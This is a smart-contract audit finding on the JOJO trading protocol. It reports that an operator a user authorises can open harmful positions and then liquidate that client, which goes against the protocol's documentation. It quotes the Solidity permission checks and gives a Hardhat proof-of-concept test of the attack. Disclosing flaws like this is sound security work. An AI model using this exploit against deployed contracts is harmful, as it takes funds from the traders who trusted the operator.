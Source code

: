 0xbepresent

high

# Malicious operator can liquidates the client who assigned him as operator

## Summary

The operator can create malicious trades causing that the malicious operator liquidates the client who assigned him as an operator.

## Vulnerability Detail

An user can assign an operator via [Operation.setOperator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Operation.sol#L129) function. As the [documentation](https://jojo-docs.netlify.app/operator/) says: *Users can authorize the operator to a professional trading team so that professional traders can help users operate accounts to achieve the effect of high returns.*

That allows the operator to:
- Sign orders on [behalf his client](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/impl/JOJOExternal.sol#L141).

```solidity
File: JOJOExternal.sol
103:     function approveTrade(address orderSender, bytes calldata tradeData)
104:         external
105:         onlyRegisteredPerp
106:         returns (
107:             address[] memory, // traderList
108:             int256[] memory, // paperChangeList
109:             int256[] memory // creditChangeList
110:         )
111:     {
...
...
138:             // requirements
139:             require(
140:                 recoverSigner == order.signer ||
141:                     state.operatorRegistry[order.signer][recoverSigner],
142:                 Errors.INVALID_ORDER_SIGNATURE
143:             );
...
...
```

- Liquidate positions on [behalf his client](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L345)

```solidity
File: Liquidation.sol
327:     function requestLiquidation(
328:         Types.State storage state,
329:         address perp,
330:         address executor,
331:         address liquidator,
332:         address liquidatedTrader,
333:         int256 requestPaperAmount
334:     )
335:         external
336:         returns (
337:             int256 liqtorPaperChange,
338:             int256 liqtorCreditChange,
339:             int256 liqedPaperChange,
340:             int256 liqedCreditChange
341:         )
342:     {
343:         require(
344:             executor == liquidator ||
345:                 state.operatorRegistry[liquidator][executor],
346:             Errors.INVALID_LIQUIDATION_EXECUTOR
347:         );
348:         require(
349:             liquidatedTrader != liquidator,
350:             Errors.SELF_LIQUIDATION_NOT_ALLOWED
351:         );
...
...
```

The problem is that the operator can act maliciously then the operator can creates positions that affect his client and then liquidate the client who assigned him as operator.

I created a test where it is possible to see the assigned operator liquidates the client who assigned him as operator. Test steps:

1. Trader1 assigns an operator to the operator.address via [setOperator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Operation.sol#L129) function. The operator creates malicious positions and so on
2. Assert balance of the trader1 (the user to be liquidated).
3. Malicious operator liquidates his client (trader1.addresss) who assigned him as operator.
4. The liquidated user (trader1) was liquidated by the operator who was authorized by trader1.

```javascript
File: liquidation-test.ts
299:     it("operator liquidates the client who assigned him", async () => {
300:       // The malicious operator can liquidates the client who assigned him.
301:       // 1. Trader1 assigns his operator to the operator.address. The operator creates malicious positions and so on
302:       // 2. Assert balance of the trader1 (the user to be liquidated).
303:       // 3. Malicious operator liquidates his client (trader1.addresss) who assigned him as operator.
304:       // 4. The liquidated user (trader1) was liquidated by the operator who was authorized by trader1.
305:       //
306:       let operator = trader2;
307:       //
308:       // 1. Trader1 assigns his operator to the operator.address. The operator creates malicious positions and so on
309:       // 
310:       await context.dealer
311:         .connect(trader1)
312:         .setOperator(operator.address, true);
313:       //
314:       // 2. Assert balance of the trader1 (the user to be liquidated).
315:       //
316:       await checkBalance(perp0, trader1.address, "1", "-30015");
317:       //
318:       // 3. Malicious operator liquidates his client (trader1.addresss) who assigned him as operator.
319:       //
320:       await perp0
321:         .connect(operator)
322:         .liquidate(
323:           operator.address, // liquidator
324:           trader1.address, // liquidatedAddress
325:           utils.parseEther("1"),//requestPaper
326:           utils.parseEther("-20394")//expectCredit
327:         );
328:       //
329:       // 4. The liquidated user (trader1) was liquidated by the operator who was authorized by trader1.
330:       //
331:       await checkBalance(perp0, trader1.address, "0", "0"); // the trader1 is liquidated by the operator
332:       await checkCredit(context, insurance, "203.94", "0");
333:       await checkCredit(context, trader1.address, "-4824.94", "5000");
334:       expect(await context.dealer.isSafe(trader1.address)).to.be.true;
335:     });
```

## Impact

The operator's client can be liquidated by a malicious operator who was assigned by the client itself. Since the operator can manage the client's positions, the operator can act maliciously then liquidate the user who assigned him as operator.

The [documentation](https://jojo-docs.netlify.app/operator/) says *The operator is the client's agent and can sign an order on your behalf, but cannot withdraw or liquidate for the client. Users can set the operator of the account by calling IDealer#setOperator.*. So the operator should not have to possibility to liquidate on behalf the client.

## Code Snippet

- The [JOJOExternal.approveTrade()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/impl/JOJOExternal.sol#L103) function helps to create positions by the trader or an operator.
- The [Liquidation.requestLiquidation()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L327) helps to liquidate positions by the trader or an operator.
- The [setOperator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Operation.sol#L129) function helps to assign an operator.

## Tool used

Manual review

## Recommendation

Don't allow the operator to liquidate the client who assigned him as operator. 